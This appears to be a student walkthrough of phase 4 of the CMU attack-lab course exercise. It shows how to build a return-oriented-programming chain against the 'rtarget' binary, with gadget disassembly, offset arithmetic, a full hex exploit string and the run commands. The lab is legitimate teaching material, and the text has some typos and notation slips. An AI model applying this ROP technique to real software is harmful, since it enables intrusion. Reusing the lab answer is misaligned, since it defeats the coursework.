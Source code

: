 Phase 4 is different from the previous 3 because on this target, we can't execute code for the following two reasons:
1. Stack randomization -- you can't simply point your injected code to a fixed address on the stack and run your explit code
2. Non-executeble memory block. This feature prevents you from executing instructions on the machine because the memory block is marked as non-executable.

The solution for this is to use ROP (Return Oriented Programming), what ROP does is that since we can't execute our own code, we will look for instructions
in the code that do the same thing as what we want. These are called gadgets and by combining these gadgets, we will be able to perform our exploit.

For this phase, we will be using the program rtarget instead of ctarget

This phase is the same as phase 2 except you are using different exploit method to call touch2 and pass your cookie.

In the pdf it tells you to find the instructions from the table and one of the instructions you will use involve popping rdi register off the stack,

`popq %rdi` is given in the the pdf and it's byte representation is `5f`, since we don't have 5f byte in the dump file, we will look for a substitute which
is `popq %rax% with byte representation of `58`

In your disassembled code, (objdump -d rtarget > rtarget_dump.txt), there are a lot of functions and the ones you can pick your instructions are located 
between start_farm and end_farm something like that. Now, search for 58 between those.

```
00000000004018ee <getval_336>:
4018ee:	b8 1b f3 8c 58       	mov    $0x588cf31b,%eax
4018f3:	c3                   	retq   
```

I found the above in the disassembled code and there might be more than one but you want the function where 58 is present on the outer right end.

The other instruction you need is: `movq %rax %edi` and it's byte representation is `48 89 c7 c3` which is referenced in the pdf. 
Go back to your disassembled code and search for that byte code.

I found:

```
0000000000401907 <setval_131>:
401907:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
40190d:	c3                   	retq   
```

Now you have 2 gadgets and can exploit the rtarget program.

The exploit we are doing is:

```
popq %rax
movq %rax %edi
ret 
```

The next step is constructing your string, the format is padding for the buffer size, gadget 1 address, your cookie, gadget 2 address, return address
and finally touch2 address.

Becareful with the address of the gadgets, it starts at the byte code we are looking for not at the address where the function starts.

What I mean is that, look at the first gadget:
```
00000000004018ee <getval_336>:
4018ee:	b8 1b f3 8c 58       	mov    $0x588cf31b,%eax
4018f3:	c3                   	retq   
```
The address of the function starts at `4018ee` but 58 is present on the 5th byte, so we need to add 4 bytes to the address.
We just want the bytes starting at that address.

`4018ee + 4 = 4018f2`

Same thing with the second gadget: address starts at `401907` but `48 89 c7 c3` starts on the 3rd byte, so add 2 bytes to the address.

```
0000000000401907 <setval_131>:
401907:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
40190d:	c3                   	retq   
```

`401907 + 2 = 401909`

Now put everything together in a file named phase4.txt and here is my version:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* first 24(buffer size) bytes here are just padding */
f2 18 40 00 00 00 00 00 /* gadget 1: popq %rax address starts at last byte */
70 4b 4b 43 00 00 00 00 /* cookie */
09 19 40 00 00 00 00 00 /* gadget 2: move %rax to %rdi */
8c 17 40 00 00 00 00 00 /* touch2 address
```

Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase4.txt > raw-phase4.txt`

Finally, you run the raw file (remember you are running it on rtarget, not ctarget)

`./rtarget < raw-phase4.txt`

You should get something like below:

```
Type string:Touch2!: You called touch2(0x434b4b70)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

